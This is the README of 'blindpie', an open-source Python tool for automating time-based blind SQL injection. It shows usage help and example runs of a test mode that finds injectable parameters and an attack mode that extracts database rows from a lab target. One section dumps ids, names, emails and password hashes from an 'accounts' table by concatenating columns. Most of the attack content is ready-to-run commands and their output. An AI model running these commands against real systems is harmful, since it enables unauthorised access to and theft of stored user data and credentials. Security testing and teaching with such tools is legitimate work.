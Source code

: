 # blindpie

`blindpie` is a simple Python script to automate time-based blind SQL injections.<br>
It should work fine injecting in SELECT, DELETE, and UPDATE queries. Injections in INSERT queries are supported only for parameters which are unquoted (numeric values).

## Usage

Use the `--help` command to show the help message:

```
 _     _ _           _       _      
| |   | (_)         | |     (_)     
| |__ | |_ _ __   __| |_ __  _  ___
| '_ \| | | '_ \ / _` | '_ \| |/ _ \
| |_) | | | | | | (_| | |_) | |  __/
|_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                     | |           
                     |_|           

usage: blindpie.py [-h] -u URL -p PARAMS [PARAMS ...] -d DEFAULT [DEFAULT ...]
                 (--post | --get) [-M M] [-T T]
                 {test,attack} ...

A simple tool to automate time-based blind SQL injections.

positional arguments:
{test,attack}

optional arguments:
-h, --help            show this help message and exit
-u URL, --url URL     url of the target
-p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                      parameters for the requests
-d DEFAULT [DEFAULT ...], --default DEFAULT [DEFAULT ...]
                      default values for the parameters
--post                use method POST
--get                 use method GET
-M M                  attack mode (from 0, the least reliable but the
                      fastest, to 3, the most reliable but the slowest)
-T T                  number of threads to create when getting multiple rows

Note: the default values must be of the same type of data of the parameters
(use numbers for the parameters which are numbers, strings otherwise).
```

The script provides two modes of operation: the <i>test mode</i> and the <i>attack mode</i>.

### Test mode

The <i>test mode</i> is used to test which parameters of the GET/POST request could be vulnerable to SQL injection.

This is the help message for the <i>test mode</i>:

```
usage: blindpie.py test [-h] --test

optional arguments:
  -h, --help  show this help message and exit
  --test      test for vulnerabilities
```

Use the `--test` flag to test the parameters.

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind_escaped.php` accepts POST requests with parameters `to` and `msg`, where the former is an integer and the latter is a string. The `-d` parameter is used to set the default value for the parameter of the request and to distinguish between numeric values (which in queries are unquoted) and strings (in queries are quoted). Use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post test --test
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.019 sec (done in 0.049 sec)
[*] testing params: |████████████████████████████████████████| 100.0% complete
> RESULTS:
[*] to seems to be vulnerable
[*] msg doesn't seem to be vulnerable
[*] all done in 0.063 sec
```

The script tests each parameter of the request and shows if it seems to be vulnerable or not.

### Attack mode

The <i>attack mode</i> is used to extract data from the database by exploiting vulnerable parameters.

This is the help message for the <i>attack mode</i>:

```
usage: blindpie.py attack [-h] --param PARAM --table TABLE --column COLUMN
                          --row ROW [--rows ROWS]

optional arguments:
  -h, --help       show this help message and exit
  --param PARAM    vulnerable parameter to exploit
  --table TABLE    name of the table from which to select
  --column COLUMN  name of the column to select
  --row ROW        index of the row to select
  --rows ROWS      number of rows to select
```

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind.php` accepts GET requests with a parameter named `email`, which is a string. The `-d` parameter is used to set the default value for the parameter. As said before, use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

In this case I'm going to extract the rows from 0 to 3 of the `first_name` column from the table `accounts` by exploiting the `email` parameter of the GET request:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T4 attack --table accounts --column first_name --param email --row 0 --rows 4
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.031 sec (done in 0.096 sec)
[*] row 0 length is 6
[*] row 1 length is 4
[*] row 2 length is 6
[*] row 3 length is 6
[*] getting 4 rows: |████████████████████████████████████████| 100.0% complete (34.583 sec)
> RESULTS:
Arthur
Ford
Tricia
Zaphod
[*] all done in 34.583 sec
```

Note #1: use the `-M` parameter to set the reliability of the script. The value goes from 0 (the least reliable but the fastest) to 3 (the most reliable but the slowest).

Note #2: use the `-T` parameter to set the number of rows to extract concurrently.

The script will test each character of each row and will print the rows found.

### Trick

You can extract multiple columns at a time by concatenating the values. Use the `concat` function as the column name:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table accounts --column "concat(id, ' ', first_name, ' ', last_name, ' ', email, ' ', password)" --param email --row 0 --rows 10
  _     _ _           _       _
 | |   | (_)         | |     (_)
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |
                       |_|

[*] avg response time is 0.018 sec (done in 0.054 sec)
[*] row 0 length is 71
[*] row 1 length is 70
[*] row 2 length is 75
[*] row 3 length is 77
[*] row 4 seems to be empty
[*] row 5 seems to be empty
[*] row 6 seems to be empty
[*] row 7 seems to be empty
[*] row 8 seems to be empty
[*] row 9 seems to be empty
[*] getting 10 rows: |████████████████████████████████████████| 100.0% complete (373.877 sec)
> RESULTS:
1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
[empty]
[empty]
[empty]
[empty]
[empty]
[empty]
[*] all done in 373.877 sec
```

Note: a row can't be longer than `MAX_ROW_LENGTH` (by default is 128) or it will be ignored and considered empty.

## Authors

* **Alessio Vierti** - *Initial work*

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
